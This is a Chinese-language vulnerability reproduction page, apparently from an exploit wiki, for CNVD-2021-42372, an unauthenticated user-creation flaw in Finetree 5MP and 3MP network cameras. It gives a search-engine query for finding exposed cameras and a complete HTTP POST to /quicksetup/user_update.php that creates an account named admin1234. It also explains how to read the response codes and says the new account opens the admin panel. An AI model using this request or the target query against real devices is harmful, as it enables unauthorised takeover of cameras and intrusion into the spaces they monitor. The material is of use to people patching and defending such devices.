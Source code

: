 # Finetree 5MP 摄像机 user_pop.php 任意用户添加漏洞 CNVD-2021-42372

## 漏洞描述

Finetree 5MP 摄像机 user_pop.php文件存在未授权任意用户添加，攻击者添加后可以获取后台权限

## 漏洞影响

<a-checkbox checked>Finetree 5MP</a-checkbox></br>

<a-checkbox checked>Finetree 3MP</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Finetree-5MP-Network-Camera"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1650596915704-1a1f5f17-da0a-46f7-878f-4e45d228b7b2.png)

存在漏洞的文件 user_pop.php

![img](../../../.vuepress/public/img/1650596947183-6e5162c8-5039-47f7-9008-e1f06106a72f.png)

```java
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

![img](../../../.vuepress/public/img/1650597037790-9c10f375-9a20-4cb0-960e-c41c4962278d.png)

返回200即为添加成功，返回804则为用户重复，利用添加的账户就可以登录后台了

![img](../../../.vuepress/public/img/1650597298546-243cca11-64a9-40ca-8a1f-acc98d75c74a.png)